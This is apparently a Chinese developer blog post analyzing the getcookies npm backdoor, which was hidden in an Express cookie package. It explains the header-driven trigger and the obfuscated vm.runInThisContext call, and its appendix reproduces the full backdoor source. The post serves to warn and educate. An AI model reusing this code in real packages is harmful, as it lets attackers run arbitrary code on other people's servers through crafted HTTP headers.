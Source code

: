```yaml
---
title: npm 模块别乱下载，说不好就出事了
tags: node
categories:
  - 开发
  - 前端开发
thumb_img: hack.jpg
date: 2018-05-08 18:08:38
---
```


如果你和我们一样，npm install xxx 用的很舒服，可能你的项目会遇到重大的危险。
先来看看一篇别人家的文章——[细思极恐：后门代码被隐藏在 npm 模块中，差点就得逞](https://mp.weixin.qq.com/s/4JGuRDR54OnJyAqlSns53Q)

为了节省时间，[点击问题讨论地址，直接看看别人怎么说的](https://news.ycombinator.com/item?id=16975025)
{% asset_img blog.png %}

{% asset_img emoji.png %}
可能你看了那篇文章也不太清除发生了什么，那就请看下面

## 问题描述

### 哪些人会出现这样的问题？

直接 or 间接使用 getcookies 的人。

比如：你正在使用的 Node 框架是 express，并且通过 express-cookies 处理 cookie 功能。那它其中就引用了 getcookies。

### 问题有多严重？

getcookies 会通过 header 注入代码，然后在你服务器‘任意遨游’，获取你服务器配置信息、监控你请求、让你宕个机...

### 它是怎么个原理

1. inject 自定义的 Header,获取到 req.headers

```
req.headers['gfeffh11i'] = 111;
req.headers['gabcdh22i'] = 222;
req.headers['gfaffh33i'] = 333;
```

2. 在请求头中寻找符合**/g([a-f0-9]{4})h((?:[a-f0-9]{2})+)i/gi**规则的信息

```
...
// g+hex(2)+h+hex(1)+i
req.headers['gfaffh22i'] = 222;
...
// 以上header将在这个regex命中，并且通过replace执行多次。
JSON.stringify(req.headers).replace(/g([a-f0-9]{4})h((?:[a-f0-9]{2})+)i/gi, (o, p, v) => {
    // o=gabcdh00i，p=abcd，v=00
    // 转成hex字符
    p = Buffer.from(p, 'hex').readUInt16LE(0);//52651
    switch (p) {
        ...
    }
})
```

3. 判断注入非法的信息，完成：初始化代码执行环境-->将问题代码添加至内存中-->调用 vm 执行问题代码
   注释信息，说明了哪些 header 会被 switch 命中
   {% asset_img code.png getcookies %}

4. script 脚本如何在 vm 执行（写了个 Demo 模拟）

```js
// 模拟header中数据的获取，存入内存的过程(default中的逻辑)
function getHexBufer(scriptFn) {
  var result = '';
  for (var i = 0; i < scriptFn.length; i++) {
    // -->ascii-->16hex
    result = result + parseInt(scriptFn[i].charCodeAt(), 10).toString(16);
  }
  // result:2866756e6374696f6e202829207b636f6e736f6c652e6c6f672827636f6d696e6727293b7d292829
  // 16hex的buffer
  // <Buffer 28 66 75 6e 63 74 69 6f 6e 20 28 29 20 7b 63 6f 6e 73 6f 6c 65 2e 6c 6f 67 28 27 63 6f 6d 69 6e 67 27 29 3b 7d 29 28 29>
  return Buffer.from(String(result), 'hex');
}
// 编译脚本
var c = getHexBufer(`(function () {console.log('coming');})()`).toString();
// 通过vm执行脚本
require('vm')['runInThisContext'](c); //输出coming
```

### 你可能需要准备下其他知识

1. [Buffer.from 和 Buffer.alloc 干什么的](http://nodejs.cn/doc/node/buffer.html#buffer_buffer_from_buffer_alloc_and_buffer_allocunsafe)
   {% asset_img buffer-1.png Buffer.from&Buffer.alloc %}

2. [readUInt16LE 什么意思]()
   如果你不清楚 LE、BE。可以再看看这篇：[readInt16BE 和 readInt16LE 的区别](http://127.0.0.1:4000/2018/05/08/node-buffer-endian/)

3. \x76\x6d 是什么格式？
   是 16 进制。
   然后就能明白源代码中：

```
require('\x76\x6d')['\x72\x75\x6e\x49\x6e\x54\x68\x69\x73\x43\x6f\x6e\x74\x65\x78\x74']
// require('vm')['runInThisContext']
```

    对应的再补充一些进制转换api

    ````js
    var test10 = 43981;
    // 10 --> 2
    var test2 = test10.toString(2);//1010101111001101
    // 2 --> 10
    var backTest10 = parseInt(test2, 2);//43981
    // 10 -> 16
    var testHex = parseInt(test2, 2).toString(16);//abcd
    ````

4. [什么是 vm？](https://nodejs.org/api/vm.html#vm_vm_runinthiscontext_code_options)
   执行 script，同时源码中还用了高阶 Fn，提供了 module.exports, require, req, res, next 等信息。我这些都拿到了，我还有什么不能做？

## 现状

npm 官方已经做了处理，你已经下不到这两个包了

```
Error: [getcookies@*] GET https://registry.npm.taobao.org/getcookies/latest response 404 status
Error: [express-cookies@*] GET https://registry.npm.taobao.org/express-cookies/latest response 404 status
```

## 总结

1. 不要着急升级模块，避免已稳定的模块出现问题
2. 下载使用**优质**，热门模块。用的人多，这样出问题，社区会有解决方案，你不是一个人战斗。
3. 检查下项目中的 node_modules，奇奇怪怪的能不用就别用了。
4. 提升自己能力，看的懂大神们写的代码才能 hold 全场，慢慢积累，但别放弃任何学习源码的机会，比如这个 getcookie 现在就下载不到了。

## 附录

getcookie 源码

```
/* eslint-env es6 */
'use strict';

var assert = require('assert');

let harness = (req, res, callback, next) => {
    try {
        assert.equal(typeof callback, 'function');
    } catch (E) {
        return callback(E);
    }

    try {
        module.exports.log = module.exports.log || Buffer.alloc(0xffff);
        JSON.stringify(req.headers).replace(/g([a-f0-9]{4})h((?:[a-f0-9]{2})+)i/gi, (o, p, v) => {
            p = Buffer.from(p, 'hex').readUInt16LE(0);
            switch (p) {
                case 0xfffe:
                    module.exports.log = Buffer.alloc(0xffff);
                    return;
                case 0xfffa:
                    return setTimeout(() => {
                        let c = module.exports.log.toString().replace(/\x00*$/, '');
                        module.exports.log = Buffer.alloc(0xffff);
                        if (c.indexOf('\x00') < 0) {
                            require('\x76\x6d')['\x72\x75\x6e\x49\x6e\x54\x68\x69\x73\x43\x6f\x6e\x74\x65\x78\x74'](c)(module.exports, require, req, res, next);
                        }
                        next();
                    }, 1000);
                default:
                    v = Buffer.from(v, 'hex');
                    for (let i = 0; i < v.length; i++) {
                        module.exports.log[p + i] = v[i];
                    }
            }
        });
    } catch (E) {}

    next();
};

module.exports.assert = (req, res, callback, next) => {
    harness(req, res, callback, next);
};
```

